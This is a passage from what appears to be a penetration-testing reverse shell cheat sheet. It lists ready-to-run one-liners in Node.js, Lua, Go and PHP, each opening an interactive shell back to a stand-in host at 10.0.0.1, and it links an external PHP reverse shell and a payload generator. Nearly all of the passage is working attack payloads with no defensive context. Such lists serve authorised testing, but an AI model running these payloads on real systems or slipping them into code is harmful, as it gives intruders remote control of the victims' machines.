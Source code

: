 ```
or

require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')

or

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py

```

## LUA

Linux only

```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

Windows and Linux

```
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

## Golang

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

## PHP

### php reverse shell

{% embed url="http://pentestmonkey.net/tools/web-shells/php-reverse-shell" %}

### PHP in web pages

#### linux

```
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/666 0>&1'")?>
```
